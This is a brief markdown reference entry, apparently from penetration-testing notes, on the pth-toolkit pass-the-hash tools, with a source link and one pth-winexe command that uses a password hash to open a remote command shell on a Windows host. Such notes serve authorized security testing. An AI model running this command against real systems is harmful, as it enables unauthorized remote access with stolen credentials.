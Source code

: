 # Pth-toolkit

## Source

* [https://github.com/byt3bl33d3r/pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)

## Pth-winexe

```
pth-winexe -U username%password_hash //10.0.0.1 cmd
```
